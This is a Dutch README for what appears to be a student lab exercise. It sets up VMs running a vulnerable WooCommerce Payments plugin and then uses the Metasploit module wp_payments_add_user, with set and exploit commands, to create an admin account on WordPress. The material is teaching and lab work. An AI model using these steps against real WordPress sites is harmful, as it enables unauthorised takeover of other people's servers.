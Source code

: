 # Readme voor WordPress exploit

Auteurs: Arthur Van Ginderachter, Jaak Daemen, Renz De Baets, Bert Coudenys

In deze readme gaan wij uitleggen hoe je de exploit van WordPress kan gebruiken om een Admin account te maken en toegang te krijgen met admin level access op een WordPress server.

## Scripts en bestanden nodig voor het opzetten van de omgeving.

We hebben de omgeven opzetten geautomatiseerd aan de hand van scripts zowel PowerShell als bash.
Binnen het .zip bestand zal u 4 bestanden vinden.

1. rootpromotie.sh
   - Dit bash script zal gecopieerd worden naar de kali linux machine en dan uitgevoerd worden door het vmcreator.ps1 script.
   - Dit bash script bevat commando's om ervoor te zorgen dat het root account geactiveerd wordt.
2. script1.sh
   - Dit bash script zal uitgevoerd worden door het vmcreator.ps1 script.
   - Dit bash script zal een databank en een WordPress server opzetten. Het zal ook de manuele installatie van WordPress overslaan en dit automatisch doen.
3. vmcreator.ps1
   - Dit PowerShell script is verantwoordelijk voor het opzetten van de 2 nodige VM's aan de hand van VBoxManage.
   - Dit PowerShell script zal ook beide bash scripts uitvoeren en dus de volledige installatie automatiseren.
4. woocommerce-payments.5.6.1.zip
   - Deze zip file bevat de verouderde en kwetsbare versie van een WooCommerce plugin.
   - BELANGERIJK! Pak deze zip NIET uit.

Download ook deze twee .vdi files van [OSBoxes](https://www.osboxes.org/)

1. Download de "23.04 Lunar Lobster" [Ubuntu-Server](https://www.osboxes.org/ubuntu-server/)
2. Download ook de "2024.1" [Kali-Linux](https://www.osboxes.org/kali-linux/)
   Deze .vdi files mogen op uw toestel staan waar u wilt, maar hou de locatie goed bij.
   Pak nu beide .vdi's uit.

## Opzetten van de omgeving

Pak de .zip file die u gedownload heeft uit.
Voer enkel het "vmcreator.ps1" uit. Alvoor u dit kan doen zal u het bestand moeten vertrouwen.
Doe dit door, rechtermuisklik vervolgens "Eigenschappen" te openen en vanonder te klikken op "Blokkering opheffen". Dit is noodzakelijk, anders zal het script niet uitvoerbaar zijn!
Het script zal u drie absolute paden vragen. Onder andere van de twee .vdi bestanden als ook van de "shared" map. Dit is de map die u zojuist hebt gedownload en uitgepakt.

### Uitzonderingen/Errors

Zorg er zeker voor dat na het uitvoeren van het script de laatste lijn in de console dit zegt: "IP-Adres van de Ubuntu-server: arthurisgeenjaak.com".
In het geval dit NIET zo is, betekent dit dat het hosts-bestand niet correct is aangemaakt. Hier is een voorbeeld:

```bash
IP-Adres van de Ubuntu-server: 192.168.69.69
IP-Adres van de Ubuntu-server:
```

U kan dit oplossen door.

1. Deze handmatig aan te maken.
2. Het PowerShell script nogmaals uitvoeren. Deze zal enkel de bash scripts uitvoeren aangezien de VM's al bestaan.
   Nu zou dit te zien moeten zijn.

```bash
IP-Adres van de Ubuntu-server: 192.168.69.69
IP-Adres van de Ubuntu-server: arthurisgeenjaak.com
```

## Misbruiken van exploit a.d.h.v. Metasploit

Na het opzetten van de werkomgeving kan u de exploit gebruiken om een admin level user toe te voegen.
Dit hebben wij gedaan via Metasploit.
Open Metasploit en u zult een terminal te zien krijgen.
In deze terminal kan u het volgende commando uitvoeren om de exploit te zoeken:

```bash
search woocommerce
```

We zijn op zoek naar de exploit genaamd "auxiliary/scanner/http/wp_payments_add_user 2023-03-22"
Gebruik voor het selecteren van de juiste exploit het commando:

```bash
use #{numer van exploit. normaal 1}
```

Nu gaan we een aantal "set" commando's uitvoeren om Metasploit de correcte informatie te geven voor deze exploit.
Om meer informatie te vinden over deze commando's en waarom ze nodig zijn kan je volgende commando's gebruiken:

```bash
show options
```

```bash
set RHOSTS arthurisgeenjaak.com
set username #{Username van het nieuw admin account die u wilt maken}
set password #{Password van het nieuw admin account die u wilt maken}
```

Ok, nu bent u klaar om de exploit effectief uit te voeren. Gebruik hiervoor het commando:

```bash
exploit
```

Na het uitvoeren hiervan, zal er een nieuw account aangemaakt zijn op de WordPress server dat kan gebruikt worden om misbruik te maken van deze server.
